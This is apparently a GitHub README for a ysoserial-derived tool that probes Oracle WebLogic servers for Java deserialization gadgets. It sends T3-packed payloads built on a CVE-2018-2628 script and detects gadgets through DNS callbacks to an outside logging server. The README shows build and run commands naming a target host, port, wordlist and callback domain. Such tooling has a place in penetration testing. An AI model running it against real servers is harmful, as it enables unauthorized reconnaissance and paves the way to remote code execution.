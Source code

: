 ## weblogic-gadget-probe

- modified from [ysoserial](https://github.com/frohoff/ysoserial)
- added dns gadget probe for weblogic 
    - generate dns callback payload and packed into t3 protocol format (using cve-2018-2628 script)
- How to use
    - `mvn clean package -DskipTests` (Build ysoserial with my probe payload)
    - `python auto.py wlsserver.com 7001 black.list mydnslog.tw`
        - python auto.py [TARGET_HOST] [TARGET_PORT] [WORDLIST_PATH] [DNSLOG_SERVER]

---

![](https://github.com/w181496/weblogic-gadget-probe/blob/master/demo.png)
